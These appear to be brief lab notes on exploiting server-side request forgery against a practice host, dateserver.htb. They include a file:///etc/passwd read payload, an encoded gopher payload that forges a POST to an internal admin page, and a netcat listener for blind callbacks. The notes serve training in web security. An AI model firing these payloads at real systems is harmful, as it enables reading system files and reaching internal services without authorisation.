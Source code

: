 ___

![[Pasted image 20241004104444.png]]

# Fuzz endpoints

![[Pasted image 20241004105211.png]]

# LFI

```bash
file:///etc/passwd
```

# The gopher Protocol

There is no way to send this POST request using the `http://` URL scheme.

Instead, we can use the [gopher](https://datatracker.ietf.org/doc/html/rfc1436) URL scheme to send arbitrary bytes to a TCP socket. This protocol enables us to create a POST request by building the HTTP request ourselves.

```http
dateserver=gopher%3a//dateserver.htb%3a80/_POST%2520/admin.php%2520HTTP%252F1.1%250D%250AHost%3a%2520dateserver.htb%250D%250AContent-Length%3a%252013%250D%250AContent-Type%3a%2520application/x-www-form-urlencoded%250D%250A%250D%250Aadminpw%253Dadmin&date=2024-01-01
```

# Blind 

Point to our IP,

```bash
nc -lvnp 80
```


